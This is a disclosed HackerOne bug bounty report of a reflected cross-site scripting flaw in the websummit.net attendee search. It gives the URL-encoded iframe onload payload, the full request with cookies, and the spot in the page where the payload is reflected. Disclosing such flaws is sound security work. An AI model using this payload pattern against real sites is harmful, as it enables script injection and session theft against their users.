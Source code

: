 # Reflective XSS

## Report Details
- **Report ID**: 176698
- **URL**: https://hackerone.com/reports/176698
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-10-19T01:22:02.081Z
- **Disclosed**: 2017-10-28T17:43:30.797Z

## Reporter
- **Username**: hogarth45
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: websummit

## Vulnerability Information
It appears the fix for https://hackerone.com/reports/166699 did not stick.

**URL**
https://websummit.net/attendees/featured-attendees?q=rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E]

**URL Parameters**
q=rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E]

**Request Headers**
```
GET /attendees/featured-attendees?q=rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E] HTTP/1.1
Host: websummit.net
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Cookie: __cfduid=d0206c15456d3dc6ff974f786972dd1e21475340728; UTMvalues=?q=rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E%5Dvisited=yes; _gu=79b8b070-b65b-4988-9808-72c0c3f009d1; _gw=2.u[~0,~0,~0,~0,~0]v[~enka0,~1,~0]a(3341-30024717~102t); _gs=2.s(); intercom-id-h2ooummb=c763a234-9283-447e-9919-48808090f3b5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

Injection on line 151
```
<script id="fa-list" class='api-json' data-target='#attendees' data-url='https://api.cilabs.net/v1/conferences/ws16/info/attendees?limit=25&q=rubyoob'><iframe/onload=alert(document.domain)></iframe>
```

## Attachments
- webSummit.JPG
